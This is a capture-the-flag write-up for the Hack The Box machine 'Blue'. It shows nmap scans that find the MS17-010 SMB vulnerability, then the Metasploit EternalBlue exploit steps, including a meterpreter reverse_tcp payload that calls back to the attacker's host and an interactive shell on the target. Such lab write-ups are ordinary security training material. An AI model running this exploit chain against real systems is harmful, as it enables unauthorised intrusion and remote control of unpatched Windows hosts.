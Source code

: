 # Hack the Box - Blue
```CSS
Machine IP: 10.10.10.40
```

- [NMAP Scans](#NMAP)
  - [TCP all ports](#TCP-All-Ports)
  - [TCP service version and default scripts of open ports](#Open-TCP-Ports-Service-Version-and-Default-Scripts)
  - [TCP port #445 safe scripts](#Port-445-Safe-Scripts)

- [Metasploit](#Metasploit)
  - [Search Exploit](#Search-Exploit)
  - [Exploit Options](#Exploit-Options)
  - [Reverse Shell](#Reverse-Shell)

## NMAP
### TCP All Ports
```CSS
▶ nmap -Pn -sS -p- 10.10.10.40 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.40                                        
Host is up (0.19s latency).                                             
Not shown: 65526 closed tcp ports (reset)                                                                                                        
PORT      STATE SERVICE                                                 
135/tcp   open  msrpc                                                   
139/tcp   open  netbios-ssn                                             
445/tcp   open  microsoft-ds                                            
49152/tcp open  unknown                                                 
49153/tcp open  unknown                                                 
49154/tcp open  unknown                                                                                                                          
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
                                    
Nmap done: 1 IP address (1 host up) scanned in 70.46 seconds
```

### Open TCP Ports Service Version and Default Scripts
```CSS
▶ nmap -sC -sV -p 135,139,445,49152-49157 10.10.10.40 -oN deep.nmap

Nmap scan report for 10.10.10.40                                                                                                           [0/21]
Host is up (0.18s latency).                                             
                                                                                                                                                 
PORT      STATE SERVICE      VERSION                           
135/tcp   open  msrpc        Microsoft Windows RPC                      
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn              
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)                                      
49152/tcp open  msrpc        Microsoft Windows RPC                      
49153/tcp open  msrpc        Microsoft Windows RPC                      
49154/tcp open  msrpc        Microsoft Windows RPC                      
49155/tcp open  msrpc        Microsoft Windows RPC                      
49156/tcp open  msrpc        Microsoft Windows RPC                      
49157/tcp open  msrpc        Microsoft Windows RPC                      
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows                                                                         
                                    
Host script results:   
| smb2-security-mode:  
|   210:                            
|_    Message signing enabled but not required              
| smb2-time:                                                                                                                                     
|   date: 2023-04-13T17:38:57                                           
|_  start_date: 2023-04-13T17:27:27
| smb-security-mode:       
|   account_used: guest             
|   authentication_level: user                                          
|   challenge_response: supported                                       
|_  message_signing: disabled (dangerous, but default)    
| smb-os-discovery:                                                                                                                              
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)                                                                  
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC                                             
|   NetBIOS computer name: HARIS-PC\x00           
|   Workgroup: WORKGROUP\x00                                            
|_  System time: 2023-04-13T18:38:56+01:00        
|_clock-skew: mean: -20m14s, deviation: 34m36s, median: -15s                                                                                     

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                   
Nmap done: 1 IP address (1 host up) scanned in 75.47 seconds
```

### Port 445 Safe Scripts
```CSS
▶ nmap -Pn -n -p 445 --script safe -oN safe.nmap

<---SNIP--->

| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

<---SNIP--->

# Nmap done at Thu Apr 13 23:22:33 2023 -- 1 IP address (1 host up) scanned in 106.08 seconds
```

---

## Metasploit
### Search Exploit
```CSS
msf6 > search eternalblue
```
![image](https://user-images.githubusercontent.com/83878909/231924001-a45f3cad-bd2e-4491-814f-2585eccf1cc8.png)


### Exploit Options
```CSS
> set payload windows/x64/meterpreter/reverse_tcp
> set LHOST tun0
> set RHOSTS 10.10.10.40
> exploit -j
```
![image](https://user-images.githubusercontent.com/83878909/231933782-b118443d-4573-44f1-92f4-8ba3a78df666.png)


### Reverse Shell
```CSS
> sessions -l
> sessions -i 1

meterpreter > shell
```
![image](https://user-images.githubusercontent.com/83878909/231934200-86eb56b0-d2e9-4841-8c24-4d411716b23e.png)

---


